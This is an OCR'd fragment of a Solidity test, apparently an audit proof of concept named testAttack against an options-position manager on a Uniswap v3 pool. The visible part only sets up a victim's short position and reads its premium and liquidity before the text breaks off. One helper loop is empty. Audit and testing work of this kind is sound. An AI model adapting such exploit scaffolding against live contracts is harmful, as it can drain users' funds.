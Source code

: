 >        }
>    }
>
>    function generateFees(uint256 run) internal {
>        for (uint256 x; x < run; x++) {
>
>        }
>    }
>
>    function testAttack() public {
>            
>        _initPool(1);
>        positionSize = 1e18;
>
>        tokenId = uint256(0).addUniv3pool(poolId).addLeg(
>            0,
>            1,
>            isWETH,
>            0,
>            0,
>            0,
>            strike,
>            width
>        );
>
>        (tickLower, tickUpper) = tokenId.asTicks(0, tickSpacing);
>
>
>        //------------ Honest user mints short position ------------------------------
>
>        vm.startPrank(Merlin); 
>
>        deal(token0, Merlin, type(uint128).max);
>        deal(token1, Merlin, type(uint128).max);
>
>        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
>        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
>
>        IERC20Partial(token0).approve(address(router), type(uint256).max);
>        IERC20Partial(token1).approve(address(router), type(uint256).max);
>
>        (int256 totalCollected, int256 totalSwapped, int24 newTick ) = sfpm.mintTokenizedPosition(
>            tokenId,
>            uint128(positionSize),
>            TickMath.MIN_TICK,
>            TickMath.MAX_TICK
>        );
>
>        (uint128 premBeforeSwap0, uint128 premBeforeSwap1) = sfpm.getAccountPremium(
>                address(pool),
>                Merlin,
>                0,
>                tickLower,
>                tickUpper,
>                currentTick,
>                0
>        );
>
>        uint256 accountLiqM = sfpm.getAccountLiquidity(
>            address(POOL),
>            Merlin,
>            0,
>            tickLower,
>            tickUpper